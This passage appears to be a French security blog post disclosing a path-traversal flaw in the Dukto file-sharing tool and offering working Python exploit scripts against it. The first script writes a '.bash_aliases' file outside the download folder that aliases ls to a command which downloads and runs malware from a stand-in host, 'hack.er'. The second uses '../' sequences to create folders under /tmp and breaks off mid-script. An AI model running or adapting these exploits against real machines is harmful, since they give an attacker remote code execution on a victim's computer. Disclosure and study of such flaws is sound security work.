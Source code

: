 Et toutes plateformes confondues :  

* écrire un applet Java ou script JS sur le disque puis envoyer un HTML qui va les charger dans le contexte local du navigateur (requiert un peu de social-engineering)
* écrire un fichier de configuration d'un logiciel dans lequel il est possible de spécifier des commandes (sait-on jamais)
* autre idée nécessitant un peu de brainstorming :)

Il faut noter aussi que lors de l'upload d'un fichier seul, si on clique sur l'icône représentant le fichier reçu depuis *Dukto* alors le fichier est ouvert comme un objet URL Qt c'est-à-dire depuis le navigateur par défaut donc le format HTML offre ici un petit plus (on pourrait aussi utiliser un exploit connu pour Flash ou Java) :)  

Exploit :  

```python
import socket
import time
import struct

udp_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_sock.sendto('\x01Trololol at h4x0r (PwnOS)', ('192.168.1.22', 4644))
time.sleep(0.1)
udp_sock.close()

sock = socket.socket()
sock.connect(('192.168.1.22', 4644))

content = "alias ls='wget http://hack.er/malware; chmod +x malware; ./malware'"
# au choix : chemin absolu ou relatif
file_name = "/home/bob/.bash_aliases"
file_name = "../.bash_aliases"
msg = struct.pack("QQ", 1, len(content))
msg += file_name + "\x00"
msg += struct.pack("Q", len(content))
sock.send(msg)

sock.send(content)
sock.close()
```

Si on doit créer un dossier sur le système, on procédera de façon similaire :  

```python
import socket
import time
import struct

udp_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_sock.sendto('\x01Trol at lol (101)', ('192.168.1.22', 4644))
time.sleep(0.1)
udp_sock.close()

sock = socket.socket()
sock.connect(('192.168.1.22', 4644))

content = "Coucou les gens!"
folder_name = "../../../../../../../tmp/yop"
file_name = "../../../../../../../tmp/yop/test.txt"

# 2 items : 1 folder entry + 1 file entry
msg = struct.pack("QQ", 2, len(content))
msg += folder_name + "\x00"
msg += struct.pack("q", -1)  # this is a folder

sock.send(msg)

```